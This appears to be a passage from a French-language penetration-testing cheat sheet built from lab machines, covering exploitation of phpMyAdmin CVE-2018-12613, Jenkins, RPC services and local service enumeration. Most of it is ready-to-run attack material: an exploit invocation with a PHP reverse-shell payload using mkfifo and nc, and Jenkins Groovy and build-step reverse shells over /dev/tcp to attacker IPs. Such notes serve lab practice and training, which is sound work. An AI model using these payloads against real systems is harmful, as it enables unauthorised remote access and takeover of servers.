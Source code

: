 #### phpMyAdmin (CVE-2018-12613)
> Inclusion de fichier local (LFI) à RCE dans phpMyAdmin.
Exemple (Shiftdel):
```bash
# Exploiter phpMyAdmin via CVE-2018-12613
# python2 50457.py <target_ip> <port> <phpmyadmin_path> <username> <password> '<payload_php_reverse_shell>'
python2 50457.py 192.168.57.174 8888 /wordpress ThinnerATheWaistline348 '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f"); ?>'
# Le payload est une commande PHP qui crée un reverse shell.
```

#### Jenkins
> Abus de la console de script Jenkins ou création de tâches pour exécuter du code.
Exemple (vmdak):
```bash
# Rediriger le port Jenkins localement via SSH si nécessaire
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103

# Accéder à Jenkins (ex: http://127.0.0.1:9999)
# Option 1: Utiliser la console de script (Manage Jenkins -> Script Console)
# Payload Groovy pour un reverse shell :
# new GroovyShell().evaluate('new ProcessBuilder("bash", "-c", "bash -i >& /dev/tcp/192.168.49.x/4444 0>&1").start()')

# Option 2: Créer une nouvelle tâche (Freestyle project)
# Dans la section "Build", ajouter une étape "Execute shell" :
bash -c 'bash -i >& /dev/tcp/192.168.49.x/4444 0>&1'
# Sauvegarder et lancer la tâche ("Build Now").
# Si Jenkins s'exécute en tant que root, le shell sera root.
```

#### Services RPC (Remote Procedure Call)
> Exploiter des services RPC vulnérables.
Exemple (PC):
```bash
# Identifier les services RPC (rpcinfo -p <target_ip>)
# Rechercher des exploits pour les services RPC identifiés.
# Exemple avec un exploit Python spécifique (50983.py pour un service RPC non spécifié)
python3 50983.py # Les arguments dépendront de l'exploit.
```

#### Analyse Approfondie des Services et Processus
> Identifier les services tournant en tant que root ou d'autres utilisateurs privilégiés et rechercher des vulnérabilités.

*   **Identification des services et processus :**
    ```bash
    ps aux | grep -E 'root|privileged_user' # Lister les processus
    systemctl list-units --type=service --state=running # Services systemd
    netstat -tulnp # Ports en écoute et services associés
    ss -tulnp # Alternative à netstat
    ```
*   **Analyse des fichiers de configuration des services :** Rechercher des erreurs de configuration, des chemins non sécurisés, ou des options potentiellement exploitables dans les fichiers de configuration (souvent dans `/etc/`).
    ```bash
    # Exemples
    cat /etc/systemd/system/*.service
    cat /etc/init.d/* # Scripts de démarrage SysVinit
    cat /etc/apache2/apache2.conf
    cat /etc/nginx/nginx.conf
    cat /etc/ssh/sshd_config
